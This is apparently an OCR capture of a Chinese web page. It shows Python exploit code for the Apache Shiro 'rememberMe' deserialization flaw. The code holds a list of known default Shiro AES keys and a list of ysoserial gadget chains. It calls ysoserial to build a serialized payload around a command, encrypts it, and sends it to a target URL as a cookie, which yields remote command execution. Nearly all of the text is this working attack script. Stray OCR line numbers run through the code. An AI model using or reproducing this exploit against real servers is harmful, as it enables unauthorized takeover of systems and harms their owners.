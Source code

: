 ```
    mode =  AES.MODE_CBC      1
    iv   =  uuid.uuid4().bytes      1
    encryptor = AES.new(base64.b64decode(key), mode, iv)      1
    file_body = pad(popen.stdout.read())      1
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))      1
    return base64_ciphertext       2
if __name__ == '__main__':      2
    payload = encode_rememberme(sys.argv[1])          2
    with open("payload.cookie", "w") as fpw:      2
        print("rememberMe={}".format(payload.decode()), file=fpw)
```




以下是shiro\_rce.py文件的内容：



```
#coding: utf-8      
import os      
import re      
import time      
import base64      
import uuid      
import subprocess      
import requests      
from Crypto.Cipher import AES      1
#JAR_FILE = 'ysoserial-master-SNAPSHOT.jar'      1
JAR_FILE = 'ysoserial-0.0.6-SNAPSHOT-all.jar'      1
keys = ['Z3VucwAAAAAAAAAAAAAAAA==','kPH+bIxk5D2deZiIxcaaaA==','4AvVhmFLUs0KTA3Kprsdag==','3AvVhmFLUs0KTA3Kprsdag==','2AvVhdsgUs0FSA3SDFAdag==','wGiHplamyXlVB11UXWol8g==','fCq+/xW488hMTCD+cmJ3aQ==','1QWLxg+NYmxraMoxAXu/Iw==','ZUdsaGJuSmxibVI2ZHc9PQ==','L7RioUULEFhRyxM7a2R/Yg== ','6ZmI6I2j5Y+R5aSn5ZOlAA==','r0e3c16IdVkouZgk1TKVMg==','ZWvohmPdUsAWT3=KpPqda','5aaC5qKm5oqA5pyvAAAAAA==','bWluZS1hc3NldC1rZXk6QQ==','a2VlcE9uR29pbmdBbmRGaQ==','WcfHGU25gNnTxTlmJMeSpw==','LEGEND-CAMPUS-CIPHERKEY==','3AvVhmFLUs0KTA3Kprsdag==']      1
lis = ["BeanShell1","C3P0","Clojure","CommonsBeanutils1","CommonsCollections1","CommonsCollections2","CommonsCollections3","CommonsCollections4","CommonsCollections5","CommonsCollections6","FileUpload1","Groovy1","Hibernate1","Hibernate2","JBossInterceptors1","JRMPClient","JRMPListener","JSON1","JavassistWeld1","Jdk7u21","Jython1","MozillaRhino1","Myfaces1","Myfaces2","ROME","Spring1","Spring2","URLDNS","Wicket1",]      1
#keys = ['4AvVhmFLUs0KTA3Kprsdag==','']      1
def poc(url, rce_command,key,func):      1
    if '://' not in url:      1
        target = 'https://%s' % url if ':443' in url else 'http://%s' % url      1
    else:      1
        target = url      2
    try:      2
        payload = generator(rce_command, JAR_FILE,key,func)  # 生成payload      2
        #print payload      2
        print payload.decode()      2
        #exit()      2
        r = requests.get(target, cookies={'rememberMe': payload.decode()}, timeout=10,verify=False)  # 发送验证请求      2
    except Exception, e:      2
        print(e)      2
        pass      2
    return False      3
def generator(command, fp,aeskey,func):      3
    if not os.path.exists(fp):      3
        raise Exception('jar file not found!')       3
    popen = subprocess.Popen(['java', '-jar', fp,func, command],stdout=subprocess.PIPE)       3
    BS = AES.block_size      3
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()      3
    key = aeskey      3
```